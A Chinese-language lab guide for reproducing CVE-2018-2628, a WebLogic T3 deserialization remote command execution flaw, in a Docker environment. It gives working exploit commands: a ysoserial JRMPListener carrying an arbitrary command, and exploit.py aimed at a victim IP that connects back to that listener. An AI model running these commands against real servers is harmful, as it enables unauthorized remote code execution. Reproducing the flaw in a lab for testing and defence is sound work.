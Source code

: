 # Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- https://github.com/brianwrf/CVE-2018-2628
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA

## 漏洞环境

执行如下命令启动Weblogic 10.3.6.0：

```
docker-compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境。

## 漏洞复现

参考[brianwrf/CVE-2018-2628](https://github.com/brianwrf/CVE-2018-2628)，首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用exploit.py脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker-compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。

![](1.png)
